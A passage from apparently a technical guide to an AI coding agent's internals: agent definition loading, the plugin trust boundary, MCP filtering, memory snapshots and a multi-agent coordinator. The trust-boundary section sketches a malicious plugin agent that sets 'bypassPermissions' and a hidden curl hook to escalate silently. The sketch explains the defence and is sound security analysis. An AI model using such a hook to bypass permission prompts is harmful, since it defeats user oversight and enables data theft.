        `Failed to parse YAML frontmatter${location}: ${retryError instanceof Error ? retryError.message : retryError}`,
        { level: 'warn' },
      )
    }
  }

  return {
    frontmatter,
    content,
  }
}
```

The pre-processing step handles glob patterns, URLs, and other special-character values that would fail in a raw YAML parse:

```typescript
// src/utils/frontmatterParser.ts:L66-L121
// Characters that require quoting in YAML values (when unquoted)
// - { } are flow mapping indicators
// - * is anchor/alias indicator
// - [ ] are flow sequence indicators
// - ': ' (colon followed by space) is key indicator — causes 'Nested mappings
//   are not allowed in compact mappings' when it appears mid-value. Match the
//   pattern rather than bare ':' so '12:34' times and 'https://' URLs stay unquoted.
// - # is comment indicator
// - & is anchor indicator
// - ! is tag indicator
// - | > are block scalar indicators (only at start)
// - % is directive indicator (only at start)
// - @ ` are reserved
const YAML_SPECIAL_CHARS = /[{}[\]*&#!|>%@`]|: /

/**
 * Pre-processes frontmatter text to quote values that contain special YAML characters.
 * This allows glob patterns like **\/*.{ts,tsx} to be parsed correctly.
 */
function quoteProblematicValues(frontmatterText: string): string {
  const lines = frontmatterText.split('\n')
  const result: string[] = []

  for (const line of lines) {
    // Match simple key: value lines (not indented, not list items, not block scalars)
    const match = line.match(/^([a-zA-Z_-]+):\s+(.+)$/)
    if (match) {
      const [, key, value] = match
      if (!key || !value) {
        result.push(line)
        continue
      }

      // Skip if already quoted
      if (
        (value.startsWith('"') && value.endsWith('"')) ||
        (value.startsWith("'") && value.endsWith("'"))
      ) {
        result.push(line)
        continue
      }

      // Quote if contains special YAML characters
      if (YAML_SPECIAL_CHARS.test(value)) {
        // Use double quotes and escape any existing double quotes
        const escaped = value.replace(/\\/g, '\\\\').replace(/"/g, '\\"')
        result.push(`${key}: "${escaped}"`)
        continue
      }
    }

    result.push(line)
  }

  return result.join('\n')
}
```

The `YAML_SPECIAL_CHARS` regex matches characters that YAML interprets as syntax: `{`, `}`, `[`, `]`, `:`, `*`, `#`, `?`, `|`, `-`, `<`, `>`, `=`, `!`, `%`, `@`, `` ` ``, and `,`. When any of these characters appear in an unquoted value, the entire value is double-quoted with proper escaping. Already-quoted values are left untouched to avoid double-quoting.

### Plugin agent loading and trust boundaries

Plugin agents are discovered via `walkPluginMarkdown`, which recursively walks the plugin's `agents/` directory and parses each Markdown file. The plugin agent loading path adds namespace prefixes to prevent collisions between agents from different plugins:

```typescript
// src/utils/plugins/loadPluginAgents.ts:L37-L63
async function loadAgentsFromDirectory(
  agentsPath: string,
  pluginName: string,
  sourceName: string,
  pluginPath: string,
  pluginManifest: PluginManifest,
  loadedPaths: Set<string>,
): Promise<AgentDefinition[]> {
  const agents: AgentDefinition[] = []
  await walkPluginMarkdown(
    agentsPath,
    async (fullPath, namespace) => {
      const agent = await loadAgentFromFile(
        fullPath, pluginName, namespace,
        sourceName, pluginPath, pluginManifest, loadedPaths,
      )
      if (agent) agents.push(agent)
    },
    { logLabel: 'agents' },
  )
  return agents
}
```

Each plugin agent gets a namespaced `agentType` to avoid collisions. The namespace is constructed from the plugin name, any subdirectory path, and the base filename:

```typescript
// src/utils/plugins/loadPluginAgents.ts:L85-L90
const baseAgentName =
  (frontmatter.name as string) || basename(filePath).replace(/\.md$/, '')
const nameParts = [pluginName, ...namespace, baseAgentName]
const agentType = nameParts.join(':')
```

For example, a plugin named `security-audit` with an agent file at `agents/scan/vulnerability.md` would produce the agentType `security-audit:scan:vulnerability`. This hierarchical naming scheme ensures uniqueness even when multiple plugins define agents with the same base name.

**The plugin agent trust boundary is the most important security design in the agent definition system.** Plugin agents are third-party marketplace code: the user approved the plugin at install time, but individual agent files within the plugin are not separately reviewed. The `loadAgentFromFile` function in `loadPluginAgents.ts` enforces this boundary by intentionally not parsing three sensitive frontmatter fields for plugin agents:

```typescript
// src/utils/plugins/loadPluginAgents.ts:L153-L168
// permissionMode, hooks, and mcpServers are intentionally NOT parsed for
// plugin agents. Plugins are third-party marketplace code; these fields
// escalate what the agent can do beyond what the user approved at install
// time. For this level of control, define the agent in .claude/agents/
// where the user explicitly wrote the frontmatter. (Note: plugins can
// still ship hooks and MCP servers at the manifest level — that's the
// install-time trust boundary. Per-agent declarations would let a single
// agent file buried in agents/ silently add them.) See PR #22558 review.
for (const field of ['permissionMode', 'hooks', 'mcpServers'] as const) {
  if (frontmatter[field] !== undefined) {
    logForDebugging(
      `Plugin agent file ${filePath} sets ${field}, which is ignored for plugin agents. Use .claude/agents/ for this level of control.`,
      { level: 'warn' },
    )
  }
}
```

The reasoning is precise: `permissionMode` controls whether the agent can bypass permission prompts (e.g., setting `bypassPermissions`); `hooks` register arbitrary shell commands that execute before or after tool calls; `mcpServers` add network-connected servers to the agent's context. Each of these fields escalates the agent's capabilities beyond what the user approved when they installed the plugin. A malicious plugin could bury an agent file deep in its `agents/` directory that sets `permissionMode: bypassPermissions` and `hooks: { PreToolUse: [{ command: "curl ...", matcher: "" }] }`, effectively granting itself unrestricted access with no user prompt.

The trust boundary is drawn at the plugin manifest level, not the individual agent level. Plugins can still declare hooks and MCP servers in their manifest (the top-level `hooks` and `mcpServers` fields in `plugin.json`), because those are visible at install time and constitute the install-time trust decision. But per-agent declarations within Markdown frontmatter are invisible at install time and could silently escalate capabilities after the user has already approved the plugin.

The `isolation` field is also restricted for plugin agents: the source code hardcodes `isolation` to only accept `'worktree'` for plugin agents, not `'remote'`. The `'remote'` isolation mode (which sends the agent to CCR) is only available for internal deployment agents, not third-party plugins.

### MCP requirement filtering

Agents can declare `requiredMcpServers` that must be configured for the agent to be available. The filter function checks each agent's requirements against the user's MCP configuration using case-insensitive substring matching:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L224-L255
/**
 * Checks if an agent's required MCP servers are available.
 * Returns true if no requirements or all requirements are met.
 * @param agent The agent to check
 * @param availableServers List of available MCP server names (e.g., from mcp.clients)
 */
export function hasRequiredMcpServers(
  agent: AgentDefinition,
  availableServers: string[],
): boolean {
  if (!agent.requiredMcpServers || agent.requiredMcpServers.length === 0) {
    return true
  }
  // Each required pattern must match at least one available server (case-insensitive)
  return agent.requiredMcpServers.every(pattern =>
    availableServers.some(server =>
      server.toLowerCase().includes(pattern.toLowerCase()),
    ),
  )
}

/**
 * Filters agents based on MCP server requirements.
 * Only returns agents whose required MCP servers are available.
 * @param agents List of agents to filter
 * @param availableServers List of available MCP server names
 */
export function filterAgentsByMcpRequirements(
  agents: AgentDefinition[],
  availableServers: string[],
): AgentDefinition[] {
  return agents.filter(agent => hasRequiredMcpServers(agent, availableServers))
}
```

Agents whose required MCP servers are not configured are moved from `activeAgents` to a separate list, preventing the model from selecting them. This is a soft failure: the agent system continues to function without the unavailable agent. The `allAgents` list still includes filtered agents for diagnostic purposes, allowing the UI to show users what agents exist but are unavailable.

The substring matching approach means that `requiredMcpServers: ['slack']` would match an available server named `slack-workspace` or `my-slack-instance`. This permissive matching avoids false negatives from exact-match requirements, but it could produce false positives if a server name happens to contain the required pattern as a substring.

### Agent memory snapshot initialization

Agents with `memory: 'user'` scope can be initialized from project-level snapshots. The `initializeAgentMemorySnapshots` function checks each custom agent's memory state and copies snapshots to local storage when no local memory exists:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L257-L294
/**
 * Check for and initialize agent memory from project snapshots.
 * For agents with memory enabled, copies snapshot to local if no local memory exists.
 * For agents with newer snapshots, logs a debug message (user prompt pending).
 */
async function initializeAgentMemorySnapshots(
  agents: CustomAgentDefinition[],
): Promise<void> {
  await Promise.all(
    agents.map(async agent => {
      if (agent.memory !== 'user') return
      const result = await checkAgentMemorySnapshot(
        agent.agentType,
        agent.memory,
      )
      switch (result.action) {
        case 'initialize':
          logForDebugging(
            `Initializing ${agent.agentType} memory from project snapshot`,
          )
          await initializeFromSnapshot(
            agent.agentType,
            agent.memory,
            result.snapshotTimestamp!,
          )
          break
        case 'prompt-update':
          agent.pendingSnapshotUpdate = {
            snapshotTimestamp: result.snapshotTimestamp!,
          }
          logForDebugging(
            `Newer snapshot available for ${agent.agentType} memory (snapshot: ${result.snapshotTimestamp})`,
          )
          break
      }
    }),
  )
}
```

The `initialize` action copies the project snapshot to the user's local memory directory on first use. The `prompt-update` action sets `pendingSnapshotUpdate` on the agent definition when a newer snapshot is available, which the agent's runtime can check and prompt the user to update. This snapshot mechanism enables team-level memory sharing: a project's CLAUDE.md can define agent memories that are automatically distributed to all team members.

## Edge cases and failure modes

- **Frontmatter YAML parsing failure**: If the YAML parser fails on the first attempt, the `quoteProblematicValues` pre-processor is applied and parsing is retried. If both attempts fail, the agent is loaded with an empty frontmatter, and a debug log is emitted. The agent still loads but may be missing critical configuration like `tools`, `model`, or `permissionMode`. This is a deliberate tradeoff: a broken frontmatter should not prevent the agent system from loading.

- **Duplicate path detection**: The `isDuplicatePath` check prevents the same file from being loaded twice, which can happen with symlinks or overlapping search paths. Duplicate agents are silently skipped. Without this check, a symlink from `~/.claude/agents/researcher.md` to `.claude/agents/researcher.md` would load the same agent twice with different `source` values, and the precedence system would keep the one loaded last.

- **Plugin agent namespace collision**: Plugin agents are namespaced with `pluginName:namespace:baseName`. If two plugins define agents with the same base name in the same namespace path, they are distinguished by the plugin prefix. However, if the same plugin defines agents with colliding names in different subdirectories (e.g., `agents/research.md` and `agents/deep/research.md`), the `agentType` would differ (`plugin:research` vs. `plugin:deep:research`) and both would be loaded. This is correct behavior but could surprise users who expect only one `research` agent.

- **Invalid frontmatter values**: The `coerceDescriptionToString` function handles non-scalar description values (arrays, objects) by logging a warning and omitting the description. This prevents a malformed frontmatter from crashing the agent loading pipeline. Without this coercion, a frontmatter like `description: [item1, item2]` would cause the `whenToUse` field to receive an array instead of a string, which would crash downstream code expecting a string.

- **Missing required MCP servers**: An agent that declares `requiredMcpServers` but whose servers are not configured is filtered out of `activeAgents`. It remains in `allAgents` for diagnostic purposes but cannot be selected by the model. This is a soft failure: the agent system continues to function without the unavailable agent. The model will not see the agent in its tool prompt, preventing it from selecting an agent that would fail at runtime.

- **Strict plugin-only mode**: When `strictPluginOnlyCustomization` is enabled for MCP or hooks, user-controlled agents cannot define MCP servers or hooks in their frontmatter. Only admin-trusted agents (built-in, plugin, policySettings) can specify these sensitive fields. The check is applied in `initializeAgentMcpServers` and `registerFrontmatterHooks`, using the `isSourceAdminTrusted` helper to classify the agent's source.

- **Plugin agent restricted fields**: Even without `strictPluginOnlyCustomization`, plugin agents cannot set `permissionMode`, `hooks`, or `mcpServers` in their frontmatter. These fields are silently ignored and a warning is logged. This prevents a third-party plugin from escalating its capabilities beyond what the user approved at install time. The boundary is enforced at parse time in `loadPluginAgents.ts`, not at runtime, so there is no way for a plugin agent to bypass the restriction.

- **Simple mode bypass**: When `CLAUDE_CODE_SIMPLE` is set, the `getAgentDefinitionsWithOverrides` function skips all custom agent loading and returns only built-in agents. This provides a minimal agent surface for constrained environments where loading user-defined and plugin agents is not desirable.

- **Frontmatter `name` field overriding filename**: Plugin agents can override their base name via the `name` field in frontmatter. If a file named `researcher.md` contains `name: deep-research`, the agent's `agentType` will use `deep-research` instead of `researcher`. This can cause confusion when the filename and the agent name do not match, especially when trying to find the source file for a given agent.

## Where cc diverges from the published pattern

**HER Section 7.4 describes subagents as a configuration surface** with the primary benefit of preventing research/exploration from consuming the main context window. cc's agent definitions go further: they are a complete configuration surface that controls model selection, tool availability, permission mode, MCP servers, hooks, memory scope, and isolation. The frontmatter contract is richer than what HER describes, with 22+ configurable fields spanning the entire subagent lifecycle from spawning to cleanup.

**HER Pattern 2 (Scoped Context Assembly)** describes multi-level instruction loading (org, user, project, directory). cc's agent discovery follows a similar layered approach (built-in, plugin, user, project, flag, policy) with later sources overriding earlier ones. However, cc does not support directory-scoped agents (agents that activate only when the working directory matches a glob pattern). The `paths` frontmatter field exists for skills but not for agents. An agent defined at the project level is available in all directories within the project, not just directories matching a glob pattern.

**The plugin agent trust boundary** is a cc-specific security design not described in HER. HER Section 12.4 (Supply Chain Attacks via MCP/Skills/Hooks) discusses the risk of third-party code escalating capabilities, but it does not prescribe a specific enforcement mechanism for agent definitions. cc's approach of stripping `permissionMode`, `hooks`, and `mcpServers` from plugin agent frontmatter at parse time is a concrete implementation of the principle that install-time trust does not extend to per-agent runtime escalation. The manifest-level trust boundary (where hooks and MCP servers are declared at the plugin level) is the user-facing approval surface; per-agent frontmatter is not.

**The `omitClaudeMd` flag** is a cc-specific optimization not described in HER. Read-only agents (Explore, Plan) do not need the full CLAUDE.md hierarchy with commit/PR/lint guidelines. Omitting it from the subagent's userContext saves 5-15 Gtok/week across 34M+ Explore spawns. This is a production optimization that demonstrates the cost sensitivity of long-running agent systems. The flag is controlled by the `tengu_slim_subagent_claudemd` GrowthBook feature flag, with a kill-switch that defaults to true (omitting CLAUDE.md). A similar optimization drops `gitStatus` (up to 40KB) from the subagent's systemContext, saving an additional 1-3 Gtok/week fleet-wide.

**The `requiredMcpServers` filtering** is not described in HER. This is a practical mechanism for preventing the model from selecting agents that will fail at runtime due to missing MCP infrastructure. Without this filter, the model might select an agent that requires a Slack MCP server when no Slack server is configured, resulting in a runtime error that wastes tokens and confuses the user. The filter moves these agents out of the active list, making them invisible to the model.

**The `memory` scope** (`user`, `project`, `local`) and the snapshot initialization mechanism are cc-specific features not described in HER. They enable persistent memory for agents across sessions, with project-level snapshots that can be distributed to team members. The `pendingSnapshotUpdate` mechanism allows agents to detect when a newer snapshot is available and prompt the user to update their local memory.

## Developer takeaways for building a long-running agent

1. **Use frontmatter, not code, for agent configuration.** Markdown + YAML frontmatter is human-readable, version-controllable, and can be parsed without a runtime. cc's choice of Markdown as the agent definition format means non-developers can create and modify agents without touching code. The frontmatter parser's two-pass approach (raw parse, then quoted retry) handles the most common YAML failure modes without requiring users to quote every value.

2. **Namespace plugin agents to prevent collisions.** When loading agents from multiple sources, use a hierarchical naming scheme (plugin:namespace:name) to ensure uniqueness. Without namespacing, two plugins defining an agent named "researcher" would silently collide, with the one loaded last winning. cc's `nameParts.join(':')` approach produces clear, debuggable agent types like `security-audit:scan:vulnerability`.

3. **Implement a trust boundary for third-party agent definitions.** Agents loaded from third-party sources (plugins, marketplace integrations) should not be allowed to declare fields that escalate their capabilities beyond what the user approved at install time. cc strips `permissionMode`, `hooks`, and `mcpServers` from plugin agent frontmatter at parse time. The enforcement point must be at parse time, not runtime, because runtime checks can be bypassed or forgotten. This principle maps directly to HER Section 12.4's warning about supply chain attacks via hooks and MCP servers.

4. **Filter agents by capability requirements at load time.** Agents that require MCP servers, specific models, or other infrastructure should declare their requirements and be filtered out when those requirements are not met. This prevents the model from selecting an agent that will fail at runtime. The `requiredMcpServers` filter in cc uses substring matching to avoid false negatives, but be aware of potential false positives.

5. **Retry YAML parsing with value quoting.** YAML is surprisingly difficult to parse correctly when values contain glob patterns, URLs, or other special characters. The two-pass approach (raw parse, then quoted retry) handles the most common failure modes without requiring users to quote every value. The `YAML_SPECIAL_CHARS` regex and the `quoteProblematicValues` function together handle `{`, `}`, `[`, `]`, `:`, `*`, `#`, `?`, `|`, `-`, `<`, `>`, `=`, `!`, `%`, `@`, and `,` in unquoted values.

6. **Separate `activeAgents` from `allAgents`.** Maintaining both lists allows the system to show users what agents exist (including filtered ones) while only offering functional agents to the model. This separation is essential for debugging and user education. A user who installs a Slack-dependent agent but has not configured the Slack MCP server should see the agent in a "not available" state, not have it silently disappear.

7. **Apply the same precedence model to agents as to settings.** cc's agent precedence (built-in < plugin < user < project < flag < policy) mirrors the settings cascade (Chapter 31). This consistency reduces cognitive load for users who already understand the settings model. It also means that enterprise administrators can override user-defined agents with policy agents, enforcing organizational standards.

8. **Implement memory snapshots for team-level agent distribution.** When agents have persistent memory (e.g., a research agent that learns project-specific conventions), project-level snapshots allow team leads to distribute initial memory to all team members. The `initialize` and `prompt-update` actions handle first-use initialization and subsequent updates, respectively. This mechanism bridges the gap between individual agent memory and team-wide knowledge sharing.
# Multi-Agent Coordinator: The Swarm Layer

## Overview

The coordinator is the brain of cc's multi-agent swarm mode. When `CLAUDE_CODE_COORDINATOR_MODE` is set, the parent agent stops doing implementation work itself and instead orchestrates a fleet of worker subagents. The entire coordinator lives in a single file -- `src/coordinator/coordinatorMode.ts` (369 LOC) -- yet it governs how teams of agents research, implement, and verify code changes in parallel. This chapter dissects the coordinator's feature gate, system prompt, tool routing, and the generator-evaluator pattern it implements.

The coordinator sits atop the AgentTool and SendMessageTool primitives explored in Chapters 18-20. It does not introduce new runtime machinery; instead, it reconfigures the existing agent dispatch system with a strict role separation: the coordinator plans and synthesizes, while workers execute. This architectural choice directly addresses HER's Ouroboros problem (the risk that an LLM evaluator hallucinates approval), because the coordinator delegates verification to a fresh-context worker rather than self-evaluating.

The coordinator mode is significant because it represents a fundamentally different execution model from the single-agent loop. In normal mode, the agent reads, plans, and acts within a single context window. In coordinator mode, the agent becomes an orchestrator that dispatches work to isolated context windows and synthesizes their results. This separation of concerns -- planning in one context, executing in another -- is the core insight behind HER's Pattern 7 (Context-Isolated Subagents) and Pattern 8 (Fork-Join Parallelism), both of which the coordinator implements simultaneously.

## Data structures and contracts

### Feature gate and mode detection

The coordinator is gated behind two conditions: a compile-time feature gate and a runtime environment variable. The `isCoordinatorMode()` function in `src/coordinator/coordinatorMode.ts:L36-L41` checks both:

```typescript
// src/coordinator/coordinatorMode.ts:L36-L41 — Two-layer feature gate for coordinator mode
export function isCoordinatorMode(): boolean {
  if (feature('COORDINATOR_MODE')) {
    return isEnvTruthy(process.env.CLAUDE_CODE_COORDINATOR_MODE)
  }
  return false
}
```

This two-layer gate means the coordinator code can ship in production builds without being active. The compile-time `feature('COORDINATOR_MODE')` call ensures the code is tree-shaken from builds where coordinator mode is not included, while the runtime environment variable allows operators to enable coordinator mode without rebuilding. This pattern -- compile-time feature gate plus runtime toggle -- is repeated throughout cc's feature-gated subsystems and provides a safe rollout mechanism for new orchestration modes.

The `matchSessionMode()` function at `src/coordinator/coordinatorMode.ts:L49-L78` handles session resume: if a stored session was in coordinator mode, the function flips the environment variable to match, preventing mode mismatches after `--resume`. When a session is resumed, the session's stored mode (`coordinator` or `normal`) is compared against the current environment. If they differ, the environment variable is updated to match the stored mode, and a `tengu_coordinator_mode_switched` analytics event is logged. The function returns a warning message if the mode was switched, which the resume flow injects into the conversation so the user is aware of the mode change.

### Internal worker tools set

The coordinator defines an `INTERNAL_WORKER_TOOLS` set at `src/coordinator/coordinatorMode.ts:L29-L34` that lists tools workers should not see in their tool-catalog summary:

```typescript
// src/coordinator/coordinatorMode.ts:L29-L34 — Tools hidden from worker tool-catalog display
const INTERNAL_WORKER_TOOLS = new Set([
  TEAM_CREATE_TOOL_NAME,
  TEAM_DELETE_TOOL_NAME,
  SEND_MESSAGE_TOOL_NAME,
  SYNTHETIC_OUTPUT_TOOL_NAME,
])
```

These tools are internal coordination primitives. Workers use them implicitly through the coordinator's orchestration, but listing them in the tool catalog would clutter the context injected into worker prompts. The `SEND_MESSAGE_TOOL_NAME` is particularly interesting: workers should not directly message other workers, because all inter-worker communication should flow through the coordinator. This architectural constraint prevents workers from forming ad-hoc communication channels that the coordinator cannot observe or mediate.

### User context and system prompt injection

Two functions inject coordinator-specific context into the agent's prompt assembly. `getCoordinatorUserContext()` at `src/coordinator/coordinatorMode.ts:L80-L109` builds a key-value map that gets merged into the user-facing context. It lists the available worker tools, MCP servers, and optionally a scratchpad directory for cross-worker knowledge sharing:

```typescript
// src/coordinator/coordinatorMode.ts:L80-L109 — Coordinator context injected into user-facing prompt
export function getCoordinatorUserContext(
  mcpClients: ReadonlyArray<{ name: string }>,
  scratchpadDir?: string,
): { [k: string]: string } {
  if (!isCoordinatorMode()) {
    return {}
  }
  const workerTools = isEnvTruthy(process.env.CLAUDE_CODE_SIMPLE)
    ? [BASH_TOOL_NAME, FILE_READ_TOOL_NAME, FILE_EDIT_TOOL_NAME]
        .sort()
        .join(', ')
    : Array.from(ASYNC_AGENT_ALLOWED_TOOLS)
        .filter(name => !INTERNAL_WORKER_TOOLS.has(name))
        .sort()
        .join(', ')
  let content = `Workers spawned via the ${AGENT_TOOL_NAME} tool have access to these tools: ${workerTools}`
  if (mcpClients.length > 0) {
    const serverNames = mcpClients.map(c => c.name).join(', ')
    content += `\n\nWorkers also have access to MCP tools from connected MCP servers: ${serverNames}`
  }
  if (scratchpadDir && isScratchpadGateEnabled()) {
    content += `\n\nScratchpad directory: ${scratchpadDir}\nWorkers can read and write here without permission prompts. Use this for durable cross-worker knowledge — structure files however fits the work.`
  }
  return { workerToolsContext: content }
}
```

The `CLAUDE_CODE_SIMPLE` environment variable reduces workers to a minimal toolset (Bash, Read, Edit), which constrains their capability surface for security-sensitive deployments. When `SIMPLE` mode is active, workers cannot use GrepTool, GlobTool, LSPTool, or any other tool beyond the three basics. This restriction reduces the attack surface if a worker goes off-track, because the worker's ability to explore and modify the codebase is limited.

The scratchpad directory is the coordinator's implementation of HER's file-based communication recommendation (Section 9.3). Workers can read and write to a shared directory without permission prompts, creating a durable knowledge store that persists across worker lifetimes. The scratchpad is feature-gated behind `isScratchpadGateEnabled()`, which checks the GrowthBook `tengu_scratch` flag.

### Coordinator structural model

The coordinator's architecture can be expressed as a small set of interacting structures. The `classDiagram` below captures the key types and their relationships:

```mermaid
classDiagram
    class CoordinatorMode {
        +isCoordinatorMode() boolean
        +matchSessionMode(sessionMode) string|undefined
        +getCoordinatorUserContext(mcpClients, scratchpadDir) object
        +getCoordinatorSystemPrompt() string
    }
    class FeatureGate {
        +feature(name) boolean
    }
    class EnvVar {
        +CLAUDE_CODE_COORDINATOR_MODE
        +CLAUDE_CODE_SIMPLE
    }
    class InternalWorkerTools {
        -TEAM_CREATE_TOOL_NAME
        -TEAM_DELETE_TOOL_NAME
        -SEND_MESSAGE_TOOL_NAME
        -SYNTHETIC_OUTPUT_TOOL_NAME
    }
    class ScratchpadGate {
        +isScratchpadGateEnabled() boolean
    }
    class GrowthBook {
        +tengu_scratch flag
    }
    CoordinatorMode --> FeatureGate : compile-time gate
    CoordinatorMode --> EnvVar : runtime toggle
    CoordinatorMode --> InternalWorkerTools : filters worker catalog
    CoordinatorMode --> ScratchpadGate : optional scratchpad
    ScratchpadGate --> GrowthBook : reads flag
```

The diagram makes the dependency structure explicit: the coordinator depends on the compile-time feature gate for existence, the environment variable for activation, the internal tools set for context filtering, and the scratchpad gate (itself backed by GrowthBook) for cross-worker knowledge sharing. The scratchpad gate is duplicated from `utils/permissions/filesystem.ts` to avoid a circular dependency, as discussed in the Edge Cases section below.

### Coordinator system prompt structure

The `getCoordinatorSystemPrompt()` function at `src/coordinator/coordinatorMode.ts:L111-L369` returns a comprehensive system prompt organized into six sections. The prompt begins by establishing the coordinator's identity and role constraints:

1. **Your Role** -- The coordinator is explicitly told it is an orchestrator, not an implementer. It should answer questions directly when possible but delegate all coding work to workers. Every message it sends is to the user, not to workers. Worker results are internal signals, not conversation partners.

2. **Your Tools** -- The coordinator has access to AgentTool (spawn workers), SendMessage (continue workers), TaskStopTool (stop workers), and optionally PR subscription tools. The prompt explicitly warns against using one worker to check on another, because this wastes parallel capacity.

3. **Workers** -- Workers are defined as autonomous agents with `subagent_type: worker`. The prompt distinguishes between two capability levels: full mode (standard tools, MCP tools, skills) and simple mode (Bash, Read, Edit only).

4. **Task Workflow** -- The four-phase workflow (Research, Synthesis, Implementation, Verification) with concurrency rules.

5. **Writing Worker Prompts** -- The most important section, covering synthesis rules, purpose statements, and the continue-vs-spawn decision.

6. **Example Session** -- A complete walkthrough showing how a coordinator should handle a user request from investigation through implementation to verification.

## Control flow

### Four-phase workflow

The system prompt defines a four-phase workflow for most tasks:

| Phase | Who | Purpose |
|-------|-----|---------|
| Research | Workers (parallel) | Investigate codebase, find files, understand problem |
| Synthesis | Coordinator | Read findings, understand the problem, craft implementation specs |
| Implementation | Workers | Make targeted changes per spec |
| Verification | Workers (fresh context) | Test changes work independently |

This maps directly to HER's generator-evaluator pattern (Section 9.2). The coordinator is the generator, workers are the evaluators, and verification workers always spawn fresh -- never carrying implementation context that would bias evaluation. The system prompt includes a stern warning about what real verification looks like at `src/coordinator/coordinatorMode.ts:L221-L228`: "Verification means proving the code works, not confirming it exists. A verifier that rubber-stamps weak work undermines everything." The prompt instructs verifiers to run tests with the feature enabled, investigate typecheck errors rather than dismissing them, and test independently rather than rubber-stamping.

### Coordinator message routing

```mermaid
sequenceDiagram
    participant User
    participant Coordinator
    participant WorkerA as Worker A (Research)
    participant WorkerB as Worker B (Research)

    User->>Coordinator: "Fix the auth bug"
    Coordinator->>WorkerA: AgentTool("Investigate auth bug")
    Coordinator->>WorkerB: AgentTool("Research auth tests")
    Note over Coordinator: Launched in parallel - end response
    WorkerA-->>Coordinator: task-notification (completed)
    WorkerB-->>Coordinator: task-notification (completed)
    Note over Coordinator: Synthesize findings
    Coordinator->>WorkerA: SendMessage("Fix null pointer in validate.ts:42...")
    Note over Coordinator: Verify with fresh eyes
    Coordinator->>WorkerB: AgentTool("Verify the fix")
    WorkerA-->>Coordinator: task-notification (completed)
    WorkerB-->>Coordinator: task-notification (completed)
    Coordinator->>User: Summary of fix and verification
```

The sequence diagram shows the core pattern: the coordinator launches research workers in parallel, waits for their notifications, synthesizes the findings into a specific implementation spec, then dispatches implementation and verification workers. Critically, the verification worker is spawned fresh (via AgentTool, not SendMessage), ensuring it has no prior context about the implementation that might bias its evaluation.

### Continue vs spawn decision

The coordinator's system prompt includes a detailed decision table for when to continue an existing worker versus spawning a new one:

```mermaid
flowchart TD
    A[Worker completed task] --> B{Context overlap?}
    B -->|High: Research explored<br>exactly the files to edit| C[Continue via SendMessage]
    B -->|Low: Research was broad,<br>implementation is narrow| D[Spawn fresh via AgentTool]
    B -->|Medium: Correcting<br>failure or extending work| C
    B -->|None: Verifying different<br>worker's code| D
    B -->|None: Wrong approach<br>entirely| D
    C --> E[SendMessage with<br>synthesized spec]
    D --> F[AgentTool with<br>synthesized spec]
```

The key insight is that continuation is not the default. The coordinator must explicitly evaluate context overlap. A fresh context is preferred when the worker's existing context would pollute the new task (verification), anchor on a failed approach (correction), or add irrelevant noise (narrow implementation after broad research). The system prompt at `src/coordinator/coordinatorMode.ts:L283-L293` provides a complete decision table:

| Situation | Mechanism | Why |
|-----------|-----------|-----|
| Research explored exactly the files that need editing | Continue (SendMessage) | Worker has files in context AND now gets a clear plan |
| Research was broad but implementation is narrow | Spawn fresh (AgentTool) | Avoid exploration noise; focused context is cleaner |
| Correcting a failure or extending recent work | Continue | Worker has the error context and knows what it tried |
| Verifying code a different worker wrote | Spawn fresh | Verifier should see code with fresh eyes |
| First attempt used the wrong approach | Spawn fresh | Wrong-approach context pollutes the retry |
| Completely unrelated task | Spawn fresh | No useful context to reuse |

### Prompt synthesis rules

The coordinator system prompt enforces strict rules about how to write worker prompts. The most important rule is that the coordinator must synthesize findings before delegating -- never pass through vague references. The prompt at `src/coordinator/coordinatorMode.ts:L253-L258` states: "Never write 'based on your findings' or 'based on the research.' These phrases delegate understanding to the worker instead of doing it yourself. You never hand off understanding to another worker."

The system prompt illustrates anti-patterns versus good examples at `src/coordinator/coordinatorMode.ts:L261-L268`. The prompt uses the `${AGENT_TOOL_NAME}` template variable (which resolves to `"Agent"` at runtime) in these examples:

```typescript
// src/coordinator/coordinatorMode.ts:L261-L268 — Anti-patterns vs good examples for worker prompts
// Anti-pattern — lazy delegation (bad whether continuing or spawning)
// ${AGENT_TOOL_NAME}({ prompt: "Based on your findings, fix the auth bug", ... })
// ${AGENT_TOOL_NAME}({ prompt: "The worker found an issue in the auth module. Please fix it.", ... })

// Good — synthesized spec (works with either continue or spawn)
// ${AGENT_TOOL_NAME}({ prompt: "Fix the null pointer in src/auth/validate.ts:42. The user field on
//   Session (src/auth/types.ts:15) is undefined when sessions expire but the token remains
//   cached. Add a null check before user.id access — if null, return 401 with 'Session expired'.
//   Commit and report the hash.", ... })
```

This rule prevents the Ouroboros problem: if the coordinator delegates understanding rather than doing it, errors amplify through the feedback loop instead of being corrected. The synthesized spec includes file paths, line numbers, type references, and a clear definition of "done." The coordinator must prove it understood the findings by including specific details that could only come from reading the research results.

### Task notification format

Workers report completion via `<task-notification>` XML blocks that arrive as user-role messages. The coordinator must distinguish these from actual user messages by checking for the `<task-notification>` opening tag. The system prompt at `src/coordinator/coordinatorMode.ts:L146-L164` defines the notification format as a template literal within the prompt string:

```typescript
// src/coordinator/coordinatorMode.ts:L146-L164 — XML notification format from worker to coordinator
// The system prompt uses a fenced xml block inside a template literal:
// <task-notification>
// <task-id>{agentId}</task-id>
// <status>completed|failed|killed</status>
// <summary>{human-readable status summary}</summary>
// <result>{agent's final text response}</result>
// <usage>
//   <total_tokens>N</total_tokens>
//   <tool_uses>N</tool_uses>
//   <duration_ms>N</duration_ms>
// </usage>
// </task-notification>
```

The `<result>` and `<usage>` sections are optional. The coordinator uses `<task-id>` as the address for `SendMessage` continuations. This XML-based notification format is a deliberate design choice: it allows the coordinator to parse notifications programmatically (by matching opening tags) while keeping the format human-readable for debugging.

### Stopping workers

The system prompt at `src/coordinator/coordinatorMode.ts:L237-L249` describes the `TaskStopTool` as a mechanism for stopping workers that are heading in the wrong direction. The prompt gives a concrete example: if the user clarifies mid-flight that they want a different approach, the coordinator should stop the current worker, then continue it with corrected instructions via `SendMessage`. This stop-and-correct pattern prevents wasted computation and ensures the user's intent is reflected promptly.

### Worker prompt tips

The system prompt provides specific guidance for different types of worker prompts at `src/coordinator/coordinatorMode.ts:L311-L335`:

For implementation: "Run relevant tests and typecheck, then commit your changes and report the hash" -- workers self-verify before reporting done. This is the first layer of QA; a separate verification worker is the second layer.

For research: "Report findings -- do not modify files" -- this constraint prevents research workers from accidentally making changes during investigation.

